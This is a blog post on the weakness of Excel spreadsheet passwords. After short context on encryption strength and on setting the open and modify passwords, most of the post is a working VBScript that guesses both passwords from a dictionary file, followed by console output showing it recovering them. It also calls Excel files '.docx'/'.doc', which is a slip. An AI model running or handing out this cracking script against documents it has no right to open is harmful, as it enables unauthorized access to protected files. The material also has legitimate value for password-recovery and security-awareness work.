 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
---
```


![Logo](/assets/images/dictionary.jpg)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing [security of encryption algorithms](http://www.oraxcel.com/projects/encoffice/help/How_safe_is_Excel_encryption.html) for Excel spreadsheets. The bottom line is that:
* Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings.
* Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
* Encryption in Excel 95, 97 and 2000 is NOT secure at all :)

Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link. Another good reference on Excel 2007 Encryption Strength is [this discussion](https://security.stackexchange.com/questions/17702/excel-2007-encryption-strength).

## Setting password to open/modify
Changing/removing the **_password to open_** a file is pretty straight-forward in Excel 2007-2010: File menu->Info->Encrypt with password. 
I found that changing the **_password to modify_** is not so straight-forward. To set/remove a "read-only" password, from the _Save_ or _Save As_ dialog boxes, select _General Options_ from the _Tools_ drop-down menu to open the _General Options_ dialog box. There, in the _Password to modify box_, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small Visual Basic script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. This could also be extended to something like the rules in [jtr](https://github.com/magnumripper/JohnTheRipper) to intelligently guess/brute-force passwords, possibly based on the very efficient [KoreLogic John rules](http://contest-2010.korelogic.com/rules.html). 

Currently it's just a proof of concept, and it's very slow, but it could be extended to use more threads or optimized:
```c
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
```
## Usage

An example of how to use it on a test document with these 2 passwords set:
## 1. Find password to open:
```bash
> cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
```

## 2. Find password to modify: 
```bash
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper
```
